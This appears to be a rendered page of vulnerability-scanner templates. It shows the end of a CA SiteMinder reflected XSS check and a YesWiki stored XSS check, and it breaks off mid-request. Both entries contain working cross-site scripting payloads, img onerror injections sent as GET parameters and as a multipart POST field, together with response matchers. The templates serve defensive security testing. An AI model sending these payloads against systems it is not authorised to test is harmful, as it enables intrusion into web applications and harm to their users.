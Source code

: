- Method - GET
### URL
- {{BaseURL}}/siteminderagent/forms/smpwservices.fcc?USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7
- {{BaseURL}}/siteminderagent/forms/smaceauth.fcc?USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7
### Matchers

**Type - word**
- words
    1. \u003d\u0022confirm(document.domain)\u0022\u003e\</B> you cannot access your

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# YesWiki - Stored Cross-Site Scripting
## Description
- YesWiki contains a stored contains a cross-site scripting vulnerability via the bf_text field when adding a new entry for Forum.

- severity - high
- tags - yeswiki,xss,stored,huntr
## Requests
### Step - 1
```
POST /?BazaR&vue=saisir&action=saisir_fiche&id=2 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT8dS2PT0WtxACLyu

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_titre"

blog
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_text"

">\<img src=x onerror=console.log(123);>
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="bf_description"

abcd
------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="fichierbf_file"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundaryT8dS2PT0WtxACLyu
Content-Disposition: form-data; name="antispam"

```